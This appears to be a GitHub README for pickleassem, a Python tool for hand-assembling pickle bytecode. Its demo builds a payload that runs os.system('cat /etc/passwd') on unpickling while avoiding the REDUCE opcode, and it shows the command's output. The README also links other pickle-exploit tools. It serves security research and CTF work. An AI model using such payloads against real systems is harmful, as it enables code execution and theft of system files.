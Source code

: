 # pickleassem

[![PyPI - Downloads](https://pepy.tech/badge/pickleassem)](https://pepy.tech/count/pickleassem)
[![PyPI - Version](https://img.shields.io/pypi/v/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Format](https://img.shields.io/pypi/format/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Status](https://img.shields.io/pypi/status/pickleassem.svg)](https://pypi.org/project/pickleassem)

[![Travis CI - Status](https://img.shields.io/travis/com/gousaiyang/pickleassem.svg)](https://travis-ci.com/gousaiyang/pickleassem)
[![Codecov - Coverage](https://codecov.io/gh/gousaiyang/pickleassem/branch/master/graph/badge.svg)](https://codecov.io/gh/gousaiyang/pickleassem)
![License](https://img.shields.io/pypi/l/pickleassem.svg)

A simple pickle assembler to make handcrafting pickle bytecode easier.

## Demo

```python
import pickle
import pickletools

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.push_short_binunicode('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
assert b'R' not in payload
print(payload)
pickletools.dis(payload, annotate=1)
pickle.loads(payload)
```

Output:

```
b'\x80\x04(\x8c\x0fcat /etc/passwdios\nsystem\n.'
    0: \x80 PROTO      4 Protocol version indicator.
    2: (    MARK         Push markobject onto the stack.
    3: \x8c     SHORT_BINUNICODE 'cat /etc/passwd' Push a Python Unicode string object.
   20: i        INST       'os system' (MARK at 2) Build a class instance.
   31: .    STOP                                   Stop the unpickling machine.
highest protocol among opcodes = 4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
0
```

## Installation

Install with pip: `pip install -U pickleassem`

## Documentation

Just refer to the source code. Each method of `PickleAssembler` whose name begins with `push`, `build`, `pop` or `memo` corresponds to a pickle opcode.

The following opcodes and corresponding features are not implemented: `PERSID`, `BINPERSID`, `EXT1`, `EXT2`, `EXT4`, `FRAME`, `NEXT_BUFFER`, `READONLY_BUFFER`.

## See Also

Other tools for pickle exploit:

- `anapickle`: [slides](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf), [repo](https://github.com/sensepost/anapickle)
- [`pwnypack.pickle`](https://github.com/edibledinos/pwnypack/blob/master/pwnypack/pickle.py)
